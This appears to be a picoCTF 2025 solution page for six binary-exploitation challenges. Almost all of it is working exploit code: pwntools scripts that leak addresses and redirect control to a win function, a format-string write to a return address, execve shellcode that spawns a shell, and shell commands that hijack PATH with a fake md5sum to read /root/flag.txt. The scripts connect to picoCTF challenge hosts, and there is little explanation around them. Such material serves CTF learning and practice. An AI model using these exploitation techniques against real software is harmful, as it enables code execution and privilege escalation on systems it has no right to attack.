 # PICO CTF 2025 

## PWN
<details>
   <summary> PIE TIME </summary>

        #!/usr/bin/python3

        from pwn import *
        import argparse
        from time import *


        parser = argparse.ArgumentParser(description='Exploit script')
        parser.add_argument('remote', nargs='?', default=None, help='Run the exploit on a remote server')
        args = parser.parse_args()

        exe = ELF('./vuln', checksec=False)
        #libc = ELF('./libc.so.6', checksec=False)
        #ld = ELF('./ld-linux-x86-64.so.2', checksec=False)
        #libc = exe.libc

        context.binary = exe
        context.terminal = ['wt.exe','-d', '.', 'wsl.exe', '-d', 'Ubuntu-22.04']

        info = lambda msg: log.info(msg)
        sla = lambda msg, data: p.sendlineafter(msg, data)
        sa = lambda msg, data: p.sendafter(msg, data)
        sl = lambda data: p.sendline(data)
        s = lambda data: p.send(data)
        sln = lambda msg, num: sla(msg, str(num).encode())
        sn = lambda msg, num: sa(msg, str(num).encode())

        def GDB():
            if args.remote is None:
                gdb.attach(p, gdbscript='''
                b* main+139

                c
                ''')
                input()

        if args.remote:
            p = remote('rescued-float.picoctf.net',64223)  
        else:
            p = process(exe.path)  

        #GDB()



        p.recvuntil(b' main: ')

        main = int(p.recvline().strip(),16)
        print(hex(main))
        exe.address = main - 0x133d
        print(hex(exe.address))

        sl(hex(exe.address + 0x00000000000012A7)) #win

        p.interactive()
</details>

<details>
    <summary> PIE TIME 2 </summary>
            
            #!/usr/bin/python3

            from pwn import *
            import argparse
            from time import *

            parser = argparse.ArgumentParser(description='Exploit script')
            parser.add_argument('remote', nargs='?', default=None, help='Run the exploit on a remote server')
            args = parser.parse_args()

            exe = ELF('./vuln', checksec=False)
            #libc = ELF('./libc.so.6', checksec=False)
            #ld = ELF('./ld-linux-x86-64.so.2', checksec=False)
            #libc = exe.libc

            context.binary = exe
            context.terminal = ['wt.exe','-d', '.', 'wsl.exe', '-d', 'Ubuntu-22.04']

            info = lambda msg: log.info(msg)
            sla = lambda msg, data: p.sendlineafter(msg, data)
            sa = lambda msg, data: p.sendafter(msg, data)
            sl = lambda data: p.sendline(data)
            s = lambda data: p.send(data)
            sln = lambda msg, num: sla(msg, str(num).encode())
            sn = lambda msg, num: sa(msg, str(num).encode())

            def GDB():
                if args.remote is None:
                    gdb.attach(p, gdbscript='''
                    b* call_functions+80

                    c
                    ''')
                    input()

            if args.remote:
                p = remote('rescued-float.picoctf.net',55139)  
            else:
                p = process(exe.path)  

            #GDB()

            sl(b'%19$p')

            p.recvuntil(b'name:')

            leak = int(p.recvline().strip(),16)

            exe.address = leak - 0x1441

            win = exe.address + 0x000000000000136A

            sl(hex(win))

            p.interactive()
</details>

<details>
    <summary> Handoff </summary>
            
            #!/usr/bin/python3

            from pwn import *
            import argparse
            from time import *


            parser = argparse.ArgumentParser(description='Exploit script')
            parser.add_argument('remote', nargs='?', default=None, help='Run the exploit on a remote server')
            args = parser.parse_args()

            exe = ELF('./handoff', checksec=False)
            #libc = ELF('./libc.so.6', checksec=False)
            #ld = ELF('./ld-linux-x86-64.so.2', checksec=False)
            #libc = exe.libc

            context.binary = exe
            context.terminal = ['wt.exe','-d', '.', 'wsl.exe', '-d', 'Ubuntu-22.04']

            info = lambda msg: log.info(msg)
            sla = lambda msg, data: p.sendlineafter(msg, data)
            sa = lambda msg, data: p.sendafter(msg, data)
            sl = lambda data: p.sendline(data)
            s = lambda data: p.send(data)
            sln = lambda msg, num: sla(msg, str(num).encode())
            sn = lambda msg, num: sa(msg, str(num).encode())

            def GDB():
                if args.remote is None:
                    gdb.attach(p, gdbscript='''
                    b* 0x00000000004013ED

                    c
                    ''')
                    input()

            if args.remote:
                p = remote('shape-facility.picoctf.net',60437)  
            else:
                p = process(exe.path)  

            #GDB()


            jmp_rax = 0x000000000040116c

            sl(b'3')

            shell = asm(
                '''
                xor rax,rax
                xor rdi,rdi
                mov rsi,rsi
                mov rsi,rsp         #excute read
                syscall
                jmp rsi
                ''',arch='amd64'
            )

            pl = flat(
                shell.ljust(20),
                jmp_rax,            

            )
            sl(pl)

            shell = asm(
                '''
                mov rbx, 29400045130965551
                push rbx

                mov rdi, rsp
                xor rsi, rsi
                xor rdx, rdx
                mov rax, 0x3b
                syscall
                ''',arch='amd64'
            )
            s(shell)

            p.interactive()
</details>

<details>
    <summary> Echo Valley </summary>

    #!/usr/bin/python3

    from pwn import *
    import argparse
    from time import *


    parser = argparse.ArgumentParser(description='Exploit script')
    parser.add_argument('remote', nargs='?', default=None, help='Run the exploit on a remote server')
    args = parser.parse_args()

    exe = ELF('./valley', checksec=False)
    #libc = ELF('./libc.so.6', checksec=False)
    #ld = ELF('./ld-linux-x86-64.so.2', checksec=False)
    #libc = exe.libc

    context.binary = exe
    context.terminal = ['wt.exe','-d', '.', 'wsl.exe', '-d', 'Ubuntu-22.04']

    info = lambda msg: log.info(msg)
    sla = lambda msg, data: p.sendlineafter(msg, data)
    sa = lambda msg, data: p.sendafter(msg, data)
    sl = lambda data: p.sendline(data)
    s = lambda data: p.send(data)
    sln = lambda msg, num: sla(msg, str(num).encode())
    sn = lambda msg, num: sa(msg, str(num).encode())

    def GDB():
        if args.remote is None:
            gdb.attach(p, gdbscript='''
            b* echo_valley+218

            c
            ''')
            input()

    if args.remote:
        p = remote('shape-facility.picoctf.net',49775)  
    else:
        p = process(exe.path)  

    #GDB()

    sl(b'%21$p-%20$p')

    p.recvuntil(b'distance: ')
    leak = int(p.recvuntil(b'-',drop=True),16)
    stack = int(p.recvline().strip(),16)

    exe.address = leak - 0x1413

    print('exe = ' + hex(exe.address))
    print('stack = ' + hex(stack))


    win = exe.address + 0x0000000000001269
    print('win '+ hex(win))
    ret = stack - 0x8
    print('ret ' + hex(ret))

    pl = flat(
        f'%{win & 0xffff}c%8$hn'.encode().ljust(0x10),  #Change main to PrintFlag
        ret,
    )
    sl(pl)

    sl(b'exit')

    p.interactive()

</details>

<details>
    <summary> Hash only 1 </summary>
    
        echo -e '#!/bin/bash\ncat /root/flag.txt' > md5sum
        chmod +x md5sum
        mkdir /tmp/fakepath
        mv md5sum /tmp/fakepath/

        export PATH="/tmp/fakepath:$PATH"
        ./flaghasher

</details>

<details>
    <summary> Hash only 2 </summary>
    
        sh # Chạy shell sh
        
        echo -e '#!/bin/bash\ncat /root/flag.txt' > /tmp/md5sum
        chmod +x /tmp/md5sum
        export PATH="/tmp:$PATH"
        flaghasher 

</details>









